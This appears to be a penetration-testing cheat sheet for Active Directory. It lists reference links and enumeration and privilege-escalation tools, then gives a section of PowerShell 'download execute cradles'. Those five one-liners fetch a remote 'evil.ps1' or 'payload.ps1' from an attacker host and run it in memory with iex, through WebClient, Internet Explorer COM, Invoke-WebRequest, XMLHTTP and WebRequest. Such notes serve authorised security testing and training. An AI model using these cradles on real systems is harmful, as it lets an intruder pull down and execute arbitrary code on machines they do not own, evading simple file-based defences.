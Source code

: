 AD Script
==========

thanks
------

- https://github.com/samratashok/
- https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993
- https://www.pentesteracademy.com/
- https://book.hacktricks.xyz/windows/active-directory-methodology
- https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters
- https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters/powerview
- https://docs.microsoft.com/en-us/powershell/scripting/samples/working-with-registry-keys?view=powershell-7.1


Enumeration
==========

Tools
------

- https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
- https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993

- The ActiveDirectory PowerShell module
https://docs.microsoft.com/en-us/powershell/module/addsadministration/?view=win10-ps

- https://github.com/samratashok/ADModule

- We can use below tools for complete coverage

* PowerUp: https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc
* BeRoot: https://github.com/AlessandroZ/BeRoot
* Privesc: https://github.com/enjoiz/Privesc


Download execute cradle
=======================

```powershell

iex (New-Object Net.WebClient).DownloadString('https://webserver/payload.ps1')

$ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.230.1/evil.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response

# PSv3 onwards
iex(iwr 'http://192.168.230.1/evil.ps1')


$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send();iex $h.responseText

$wr = [System.NET.WebRequest]::Create("http://192.168.230.1/evil.ps1")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()

```
